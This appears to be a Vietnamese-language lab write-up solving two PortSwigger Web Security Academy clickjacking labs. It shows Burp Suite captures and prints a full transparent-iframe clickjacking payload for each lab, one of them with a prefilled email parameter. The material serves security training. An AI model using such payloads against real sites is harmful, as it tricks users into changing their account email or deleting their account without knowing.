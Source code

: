 ## Clickjacking
### Lab 01: Basic clickjacking with CSRF token protection
Sử dụng Burp Suite bắt request khi sử dụng chức năng **Update email** và **Delete Account**:  
  
![Clickjacking_2](https://github.com/ckiev5/portswigger_labs/blob/main/Images/Apprentice/Clickjacking_1.png)   
  

![Clickjacking_2](https://github.com/ckiev5/portswigger_labs/blob/main/Images/Apprentice/Clickjacking_2.png)  
  
CSRF token: **H5RP9ZPx7GbsenbxblkX6cXnOTnXs5je**  
Sử dụng **exploit server**, chèn trong phần **Body**:  
```
<style>
    iframe {
        position:relative;
        width: 500;
        height: 700 ;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450;
        left:60;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0ab4007904775bedc06216d2009e007d.web-security-academy.net/my-account"></iframe>
```  
### Lab 02: Clickjacking with form input data prefilled from a URL parameter
Sử dụng Burp Suite bắt request khi sử dụng chức năng **Update email**:  
  
![Clickjacking_3](https://github.com/ckiev5/portswigger_labs/blob/main/Images/Apprentice/Clickjacking_3.png)  
  
Sử dụng **exploit server**, chèn trong phần **Body**:  
```
<style>
    iframe {
        position:relative;
        width: 500;
        height: 700 ;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450;
        left:60;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a32009e031d6c37c01f249800a30029.web-security-academy.net/my-account?email=ckiev5@test.com"></iframe>
```